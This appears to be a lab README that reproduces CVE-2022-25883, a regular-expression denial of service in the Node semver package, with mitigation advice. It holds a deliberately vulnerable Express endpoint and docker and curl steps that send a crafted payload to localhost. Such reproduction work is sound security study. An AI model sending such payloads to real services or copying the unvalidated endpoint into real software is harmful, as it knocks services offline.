

# CVE-2022-25883 – semver RegExp Catastrophic Backtracking → ReDoS

> **Severity:** HIGH (7.5 CVSS v3.1)
> **Package:** semver < 5.7.2, 6.0.0-6.3.0, 7.0.0-7.5.1
> **Tested version:** 7.5.1

semver.validRange() uses a vulnerable regex. A range string padded with 60 k+ spaces causes exponential runtime, pegging CPU and blocking the event loop.

---

## Environment Details

Base image: node:18-bullseye

Dependencies: semver@7.5.1, express

Minimal vulnerable endpoint:

```js
app.post('/check', express.json(), (req,res)=>{
  require('semver').validRange(req.body.range);  // ⇦ ReDoS sink
  res.json({ok:true});
});
```

## Exploit Steps
1. **Build and run the docker container**
   
```bash
docker build -t semver-redos .
docker run -p 3000:3000 semver-redos
```

You should see the following if the container is running properly:

```bash
Listening on :3000
```

2. **Craft and Send the Malicious Payload**
   
Run payload.json to launch the attack and measure the time to receive server response. 

```bash
time curl --data-binary @payload.json \
     -H "Content-Type: application/json" \
     http://localhost:3000/check
```

3. **Compare Response Time**
   
Run benign.json and measure the time to receive server response. The repsonse time should be a lot shorter than running payload.json.

```bash
time curl --data-binary @benign.json \
     -H "Content-Type: application/json" \
     http://localhost:3000/check
```

## Result Screenshot


## Mitigation Notes
Upgrade to semver ≥ 7.5.2 / 6.3.1 / 5.7.2.

Until patched: validate input length (< 100 chars), parse in a worker thread with timeouts, rate-limit API, and container-limit CPU to prevent full DoS.
